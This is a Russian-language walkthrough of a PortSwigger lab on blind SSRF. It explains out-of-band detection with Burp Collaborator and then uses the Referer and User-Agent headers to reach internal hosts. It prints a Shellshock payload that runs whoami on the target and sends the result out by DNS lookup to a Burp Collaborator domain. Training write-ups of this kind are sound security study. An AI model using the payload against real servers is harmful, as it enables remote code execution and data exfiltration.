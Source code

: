 # Blind SSRF with Shellshock exploitation

## Theory

<h3>Как найти и использовать слепые SSRF-уязвимости</h3>

Самый надежный способ обнаружения слепых SSRF-уязвимостей — использование внеполосных (OAST) методов. Это включает в себя попытку инициировать HTTP-запрос к внешней системе, которую вы контролируете, и отслеживание сетевых взаимодействий с этой системой.

Самый простой и эффективный способ использовать внеполосные методы — использовать Burp Collaborator. Вы можете использовать клиент Burp Collaborator для создания уникальных доменных имен, отправки их в виде полезной нагрузки в приложение и отслеживания любого взаимодействия с этими доменами. Если наблюдается входящий HTTP-запрос, исходящий от приложения, то оно уязвимо для SSRF.

Обычно при тестировании на уязвимости SSRF наблюдается поиск DNS для предоставленного домена Collaborator, но не последующий HTTP-запрос. Обычно это происходит из-за того, что приложение пыталось выполнить HTTP-запрос к домену, что вызвало первоначальный поиск DNS, но фактический HTTP-запрос был заблокирован фильтрацией на уровне сети. Инфраструктура довольно часто разрешает исходящий трафик DNS, поскольку он необходим для очень многих целей, но блокирует HTTP-соединения с неожиданными пунктами назначения.

Простое выявление слепой SSRF-уязвимости, которая может инициировать внеполосные HTTP-запросы, само по себе не дает возможности для эксплуатации. Поскольку вы не можете просмотреть ответ от внутреннего запроса, это поведение нельзя использовать для изучения содержимого в системах, к которым может получить доступ сервер приложений. Однако его все же можно использовать для поиска других уязвимостей на самом сервере или в других внутренних системах. Вы можете вслепую сканировать внутреннее пространство IP-адресов, отправляя полезные данные, предназначенные для обнаружения известных уязвимостей. Если эти полезные нагрузки также используют слепые внеполосные методы, вы можете обнаружить критическую уязвимость на неисправленном внутреннем сервере.

Еще один способ использования слепых SSRF-уязвимостей — побудить приложение подключиться к системе, находящейся под контролем злоумышленника, и вернуть вредоносные ответы HTTP-клиенту, который устанавливает соединение. Если вы сможете использовать серьезную уязвимость на стороне клиента в реализации HTTP сервера, вы сможете добиться удаленного выполнения кода в инфраструктуре приложения.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/1.png)

В меню Target найдем нашу страницу и добавим ее в scope(Add to scope).

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/2.png)

Попереходим по некоторым страницам сайта, которые предположительно могут содержать уязвимости. Делать это мы будем с включенным Collaborator Everywhere, чтобы автоматически проверять страницы на наличение уязвимости внеполосных методов.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/3.png)

Мы обнаружили два уязвимых заголовка User-Agent и Referer. Перейдем в меню Site map и найдем наш запрос. Отправим его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/4.png)

Запустим Burp Collaborator Client.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/5.png)

Мы будем использовать экплоит shellshock, чтобы получать данные с машины. Мы изменим заголовки User-Agent и Referer, чтобы машина обрщалась к локальной сети и, чтобы мы могли вытащить нужные нам данные. Код экплоита выглядит следующим образом:
```
() { :; }; /usr/bin/nslookup $(whoami).bbqxuerxip7zvwx06wwdmfihc8iz6o.burpcollaborator.net
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/6.png)

Так как мы точно не знаем нужный нам адрес, отправим запрос в Intruder. Заключим X в специальные символы и начнем перебор от 1 до 255.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/7.png)

Дожидаемся окончания атаки и переходим в Burp Collaborator Client. Мы можем обнаружить, что у нас удалось вытащить имя пользователя из атакуемой машины.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/8.png)

Подтверждаем ответ и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(SSRF)_Server-side_request_forgery/Blind_SSRF_with_Shellshock_exploitation/assets/9.png)

